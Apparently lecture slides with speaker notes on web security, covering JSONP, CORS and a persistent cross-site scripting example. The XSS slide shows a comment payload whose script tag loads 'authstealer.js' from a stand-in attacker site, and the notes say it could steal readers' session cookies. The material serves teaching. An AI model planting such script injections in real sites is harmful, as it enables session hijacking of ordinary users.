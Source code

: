 * Use the `<script>` tag and some clever h4x:
    * `<script "application/javascript" src="ex_b.com/r1"></script>`
    * Except, ex_b.com/r1 will return JSON, not JS…
    * E.g., `{"type": "resource", "name": "r1"}`

-###-

## Other origins: JSONP

* So set source as follows:
    * "ex_b.com/r1?callback=parseResponse"
* Reponse now:
    * `parseResponse({"type": "resource", "name": "r1"})`
    * Now this is *JS*!
* Issues with this approach?

Note:
* <https://www.w3schools.com/js/tryit.asp?filename=tryjson_jsonp_callback>
* Check out source on html frame
* use JS DOM manipulation to add script tag to page
* padding is the callback function
* must accept arbitrary code from server!
* very hacky overall...

-###-

## Other origins: CORS

* Cross-Origin Resource Sharing

![CORS](images/security/cors.png)

Note:
* XHR = XMLHttpRequest
* POST usage limited to certain MIME types

-###-

## Cross-site scripting attacks

* Persistent attack example:
    * Consider the comments section of an article on news.example.com
    * Mallory notices that she can add HTML to her comments to change how they are displayed
    * E.g., adding `<em></em>` will render parts of her comments at emphasized for readers of the article
    * What happens when Mallory posts the following comment:

```
I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">
```

Note:
* everyone who loads the page will load that script
* the script will be loaded under the origin news.example.com
* will have access to news.example.com cookies, can steal anyones session!
* Solutions?
